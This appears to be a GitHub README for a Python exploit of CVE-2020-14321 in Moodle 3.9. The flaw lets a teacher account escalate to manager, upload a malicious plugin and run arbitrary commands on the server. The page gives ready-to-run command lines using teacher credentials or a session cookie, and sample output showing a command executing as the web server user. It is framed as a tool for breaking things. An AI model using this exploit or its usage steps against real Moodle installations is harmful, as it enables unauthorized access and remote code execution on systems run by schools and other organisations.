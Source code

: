 Python script to exploit [CVE-2020-14321](https://moodle.org/mod/forum/discuss.php?d=407393) - **Moodle 3.9** 

Course enrolments allowed privilege escalation from teacher role into manager role to RCE.

* Teachers of a course were able to assign themselves the manager role within that course.

Payload extracted from: https://github.com/HoangKien1020/CVE-2020-14321

## Usage

If you have valid teacher credentials (InReaLife this has not been tested enough, or maybe yes, I don't know :P):

```bash
❭ python3 CVE-2020-14321_RCE.py http://moodle.site.com/moodle -u lanz -p 'Lanz123$!'
```

If you have a valid teacher cookie (**101% tested**):

```bash
❱ python3 CVE-2020-14321_RCE.py http://moodle.site.com/moodle --cookie th3f7k1ngggk00ci30ft3ach3r
```

...

```bash
❱ python3 CVE-2020-14321_RCE.py http://moodle.site.com/moodle --cookie th3f7k1ngggk00ci30ft3ach3r -c id
 __     __     __   __  __   __              __  __     
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /| 
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz

Moodle 3.9 - Remote Command Execution (Authenticated as teacher)
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
                                                        
[+] Login on site: MoodleSession:th3f7k1ngggk00ci30ft3ach3r ✓
[+] Updating roles to move on manager accout: ✓
[+] Updating rol manager to enable install plugins: ✓
[+] Uploading malicious .zip file: ✓
[+] Executing id: ✓

uid=80(www) gid=80(www) groups=80(www)
```

Keep breaking ev3rYthiNg!!
